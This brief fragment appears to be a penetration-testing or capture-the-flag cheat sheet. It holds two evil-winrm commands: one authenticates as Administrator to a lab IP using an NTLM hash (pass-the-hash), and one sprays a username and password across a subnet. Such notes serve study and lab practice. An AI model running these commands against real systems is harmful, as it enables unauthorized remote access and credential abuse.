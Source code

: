 *Use #NTLM hash to authenticate with evil-winrm*
```c
evil-winrm -i 10.129.95.180 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

```c
evil-winrm -i 172.16.211.0/24 -u wario -p Mushroom! -h --continue-on-success
```